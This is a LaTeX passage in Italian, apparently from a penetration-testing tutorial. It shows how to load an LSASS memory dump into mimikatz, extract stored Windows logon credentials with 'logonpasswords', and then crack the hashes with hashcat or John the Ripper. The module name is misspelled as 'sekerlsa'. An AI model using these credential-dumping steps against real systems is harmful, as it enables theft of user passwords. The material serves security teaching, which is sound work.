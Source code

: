 Ora abilitiamo il log e andiamo a spostare lo spazio di lavoro di mimikatz sul file generato da procDump 

\begin{figure}[h!]
    \centering
    \includegraphics[width=100mm]{Immagini/2/mimikatz_2.PNG}
    \caption{Mimikatz setup}
    \label{fig:ProcDump}
\end{figure}

\begin{lstlisting}[ caption={Mimikatz command setup}, style=javaScriptCode]
    log
    sekerlsa::minidump lsass.dmp
\end{lstlisting}

Ora siamo pronti per recuperare tutte le password memorizzate internamente al sistema, eseguendo il seguente comando :

\begin{lstlisting}[ caption={Mimikatz Logon Passwords}, style=javaScriptCode]
    sekerlsa::logonpasswords
\end{lstlisting}

\begin{figure}[h!]
    \centering
    \includegraphics[width=100mm]{Immagini/2/mimikatz_3.PNG}
    \caption{Mimikatz dumo hash}
    \label{fig:ProcDump}
\end{figure}

Una volta recuperati gli hash delle password siamo pronti per eseguire un Brute Force attraverso per esempio lo strumento hashcat o john the ripper.


\section{Linux}

